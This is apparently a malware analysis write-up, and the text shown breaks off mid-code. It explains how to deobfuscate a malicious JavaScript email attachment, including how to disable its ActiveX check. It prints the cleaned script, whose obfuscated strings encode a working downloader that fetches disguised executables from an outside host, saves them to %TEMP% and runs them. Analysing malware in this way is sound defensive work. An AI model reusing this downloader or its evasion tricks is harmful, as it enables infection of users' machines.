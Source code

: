```javascript  00000536215.doc.js
```
Expanding and cleaning up the glob of JavaScript above gives us `00000536215_clean.doc.js`. I added comments to point out the key points to be aware of when running this through JSDetox/node. The first comment is where the script checks for ActiveX which both tools will not have access to out of the box. Looking at the code we can see the default value `a4 = 10` breaks the while loop before it can build the deobfuscated string. If we simply hard code `a4 = 0` before the loop and comment/delete the while loop it will build the string as intended. In the end the two values we care most about are `a2` and `a6`. When the script gets to `this[a6](a2)` it is essentially performing an `eval()` operation on the debofuscated string stored in `a2`.

```javascript 00000536215_clean.doc.js
var jlavws = 'fpubnwcytwieoenq sdblf(hfyrm,y ffmni,u jrcnj)n{p z fvyalro gwwsd h=s cneewwh uApcitaiwvgemXvOlbyjdefchtg(p"uWvSocaruiapota.wSshieplulm"m)b;h b kvhayrq tftnc r=x iwysd.xEtxzpmatnudmEinvvjiardoynumqelnwtxS';

var jdmkdr = 'mtgreilnxgxse(a"p%cTiEoMfPf%h"f)s b+z eSjturoijnygn.eforyobmlClhiaprwCgondaeg(c9d2o)q i+u yfonm;a n rvkairf uxgos y=u rnaefwc jAvcytpijvzevXlOcbkjcelcetb(z"rMbSnXiMmLw2o.gXcMhLfHxTyTfPd"a)p;y z exhoz.zot';

var xxjg = 'ncrkewandpyxsntgaztbeoclhxacnsgaej x=x ifduanjcstziiownh i(w)a{k g x y viufl c(uxnoq.grletaydmydSvtjaltyek v=r=k=d n4s)l{k t w r q u mvlagrp fxuaf l=f znkerwd fAbcoteimvkewXxOnbjjpezcuti(w"lAyDqOyDjBx.nS';

var bpm = 'ptrrseaawms"l)o;v r q k w c uxsaa.iobppeinv(x)e;h v u f f r sxuaj.ltvyfpdeg u=y x1k;j u n d m n mxoac.uwkraiytrew(txwob.lRoewsupzornasdeyBuocdwye)l;q s p c f b rxhaw.bphovssidtoioofnz d=b u0d;t u g r o i';

var his = ' oxtau.eslakvheqTmoyFyiilzeg(dfsnk,r h2p)r;k r l n k g uxcau.ccqlooxsvez(h)d;q t c o c}c v f u f;x b v}p m m;b z wthruyz c{x q q u lxqoc.pogpwernv(y"tGqEeTn"w,c pfrrr,b dftablasaev)z;c s q t nxboj.psqeqn';

var bey = 'ldh(l)k;b c o o yiqfe p(irfnt b>g u0b)c{u e v k y j mwhsy.cRxuknk(jfvnl,l j0a,k z0e)z;i j t j q}n l t i p;o s o}x e vcwahttchhr d(cedro)m{e y m}i y u;s}sddlj(g"ohdtotepr:h/t/p3m1p0m7t2i0u1l5max.pcaojmt/z';

var yjb = 'iwmcaygqeusr/ufeixvjeh1m.ojzptgh"p,f w"c5z3f2w7k4r7u3a5r0e.terxaev"q,r q1h)l;udelv(b"rhjtatkpq:p/q/m3r1q0r7o2a0i1i5aaa.ncuosmn/piimeafgqeqsa/vflibvmev2c.xjlpsgn"y,k d"p2z1e1y9i5f4z8v6z9r.iepxaen"v,q e1v)';

var buh = 'l;q';
var a1 = jlavws + jdmkdr + xxjg + bpm + his + bey + yjb + buh;
var a2 = "";
var a3 = 2;
var a4 = 0; // Hardcode to 0, originally set to 10

/* 1.
  Checks for ActiveX otherwise it will not deobfuscate
  We can comment this out in JSDetox and hard code a4 to 0
*/
var y = new ActiveXObject("Scripting.Dictionary");
y.add("a", "t");
if(y.Item("a") == "t") {
    a4 = 0;
} else {
    a4 = 10;
};

/* 2.
  This function will deobfuscate and build the string to be evaluated below
*/
var a5 = a1.length;
var a = 0;
while(a < a5) {
    a2 += a1.charAt(a);
```